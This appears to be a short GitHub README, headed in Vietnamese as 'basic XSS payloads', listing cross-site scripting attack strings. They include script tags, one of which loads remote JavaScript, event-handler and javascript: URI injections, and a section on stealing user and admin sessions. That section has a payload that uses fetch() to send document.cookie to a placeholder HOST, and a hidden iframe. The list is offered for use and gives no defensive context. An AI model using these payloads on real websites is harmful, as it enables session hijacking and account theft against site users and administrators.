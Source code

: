 # xss-vulner
# Các payload xss cơ bản

##  With <script> tag:
 *<script>alert(1)</script>
  
  *<script src=//brutelogic.com.br/1.js></script>
##  With regular HTML tags:
 ### 2.1 Event-based:
    * <body onload=alert(1)>

    * <img src=1 onerror=alert(1)>

    * <svg onload=alert(1)>
    
    * <x onmouseover=alert(1)>
 ### 2.2 Resource-based:
    * <iframe src=javascript:alert(1)>
    
    * <object data=javascript:alert(1)>
    
    *<script>alert(document.domain)</script>
 ### 2.3 Steal an user session on the vulnerable website (including admins)
    * <svg onload=fetch('//HOST/?cookie='+document.cookie)>

    * <iframe src=//HOST/ style=display:none></iframe>
